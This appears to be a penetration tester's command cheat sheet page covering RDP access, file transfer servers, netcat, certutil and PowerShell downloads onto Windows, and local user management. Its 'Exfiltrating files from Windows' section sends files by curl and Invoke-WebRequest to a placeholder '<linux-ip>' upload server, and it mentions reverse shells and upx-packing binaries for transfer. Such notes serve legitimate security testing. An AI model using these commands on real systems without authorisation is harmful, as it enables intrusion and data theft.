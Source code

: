 ```yaml
---
title: Home
layout: default
---
```


# General

## Connect to RDP

```bash
# add resolution support
xfreerdp3 /u:user /p:pass /v:<IP> /dynamic-resolution
# add clipboard support
xfreerdp3 /u:user /p:pass /v:<IP> +clipboard
# add a share for easily trasnfer files
xfreerdp3 /u:user /p:pass /v:<IP> /drive:<name>,<path> 
```

## File Transfer

### HTTP Server

```bash
# simple python server
python -m http.server <port>
# simple python upload-enabled server (optional basic auth)
pip install uploadserver
python -m uploadserver --basic-auth user:pass <port>

# WebDAV server
wsgidav -H 0.0.0.0 -p 80 --auth anonymous -r .

# Apache (copy files to /var/www/html)
sudo systemctl start apache2
```

### SMB Server

```bash
impacket-smbserver -smb2support share $(pwd) 
# win 10+ Compatibility (With Authentication)
impacket-smbserver -smb2support -user test -password test share $(pwd) 
```

### Netcat

```bash
# start a listener (nc|nc.exe)
nc -lvnp <port> > received_file

# send the file
nc <ip> <port> < <file_path>
```

### Downloading files on Windows

```bash
# PowerShell
iwr -uri <uri> -outfile <filename>

# cmd
certutil -urlcache -split -f <uri> <dest>

# copy from smb share
copy \\<ip>\share\<file>

# mount share before copy. (win 10+ w/o Authentication)
net use Z: \\<ip>\share
# mount share before copy. (win 10+ w/ Authentication)
net use Z: \\<ip>\share /u:user 'pass'
```

### Exfiltrating files from Windows

```bash
# send file to python upload-enabled server
Invoke-WebRequest -Uri http://<linux-ip>:<port>/upload -Method Post -InFile C:\path\to\file
curl -F "file=@C:\path\to\file.txt" http://<linux-ip>:<port> -u user:pass

# copy to smb share
copy C:\path\to\file \\<ip>\share
```

### Downloading files on Linux

```bash
# wget and curl
wget http://<ip>:<port>/<file>
curl -O http://<ip>:<port>/<file>
```

## Windows

### Utils

```bash
# search for a word in a file 
Select-String -Path "sb.txt" -Pattern "password"

# enum permissions
icacls "<path>"
Get-ACL "<path>"

# kill a process
taskkill /F /IM chisel.exe
# or by PID
tasklist | findstr chisel.exe
taskkill /PID <PID> /F
```

### Users

```bash
# enum users and groups
net user <user>
net localgroup <group>

# create local user and add it to a group
net user <user> <pass> /add
net localgroup <group> <user> /add

# change local user's password
net user <user> <newpass>
```

## Linux

### Users

```bash
useradd -u <UID> -g <group> <uname>
```

### Connections

```bash
# log incoming traffic on a specific port
sudo tcpdump -nvvvXi tun0 tcp port 8080

# network connections
netstat -antp # check tcp conns on all sockets
ss -ntplu # check tcp and udp listening conns

# kill connection
fuser -k <port>/tcp
fuser -k <port>/udp
kill -9 <PID>
```

### SSH

```bash
# create keys
ssh-keygen -t rsa -b 4096
```

### Misc

```bash
# reduce binary size (util for binaries that are going to be transfered)
upx <bin_path>
```

## VPN

Reduce MTU if rever shells not connecting back.

```bash
ifconfig tun0 mtu 1200
```